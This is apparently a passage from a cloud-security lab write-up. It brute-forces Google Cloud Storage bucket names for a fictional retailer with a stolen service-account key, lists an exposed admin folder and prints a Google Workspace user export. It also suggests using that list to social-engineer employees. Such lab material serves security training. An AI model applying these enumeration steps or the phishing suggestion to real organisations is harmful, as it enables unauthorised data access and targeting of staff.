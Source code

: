 We can send authenticated requests with the tool using either a token or key file. We'll specify our key file for the new service account. Although bucket names are [publicly visible](https://cloud.google.com/storage/docs/buckets#considerations), we also want to know our level of access to any identified bucket, so we have to be authenticated for that.
```
└─$ python3 gcpbucketbrute.py -k 'gigantic-retail' -f ~/pwnedlabs/gcp/keyfile.json                 

Generated 1216 bucket permutations.


    AUTHENTICATED ACCESS ALLOWED: web-gigantic-retail
        - AUTHENTICATED LISTABLE (storage.objects.list)
        - AUTHENTICATED READABLE (storage.objects.get)
        - ALL PERMISSIONS:
        [
            "storage.buckets.get",
            "storage.objects.get",
            "storage.objects.list"
        ]


    AUTHENTICATED ACCESS ALLOWED: gigantic-retail
        - AUTHENTICATED LISTABLE (storage.objects.list)
        - AUTHENTICATED READABLE (storage.objects.get)
        - ALL PERMISSIONS:
        [
            "storage.buckets.get",
            "storage.objects.get",
            "storage.objects.list"
        ]


Scanned 1216 potential buckets in 3 minute(s) and 9 second(s).

Gracefully exiting!
```

Looks like we have `list` and `get` permissions on the bucket `web-gigantic-retail`. Let's enumerate the bucket
```

└─$ gsutil ls gs://web-gigantic-retail                    
gs://web-gigantic-retail/baggyjeans.jpg
gs://web-gigantic-retail/hoodie.webp
gs://web-gigantic-retail/retail2.jpg
gs://web-gigantic-retail/retail3.jpg
gs://web-gigantic-retail/retail4.jpg
gs://web-gigantic-retail/suit.avif
gs://web-gigantic-retail/admin/
```

We find `admin` directory. Listing it shows an export from the Gigantic Retail Google Workspace, and the flag for the lab
```
└─$ gsutil ls gs://web-gigantic-retail/admin
gs://web-gigantic-retail/admin/
gs://web-gigantic-retail/admin/Google_Workspace_User_Download_05022024_000726.csv
gs://web-gigantic-retail/admin/flag.txt

```
Specify the file destination as `-` with the `cp` command, which displays the the output in the terminal. User list can be used to try and social engineer other Gigantic Retail employees or use it in our OSINT efforts.
```
└─$ gsutil cp gs://web-gigantic-retail/admin/Google_Workspace_User_Download_05022024_000726.csv -
```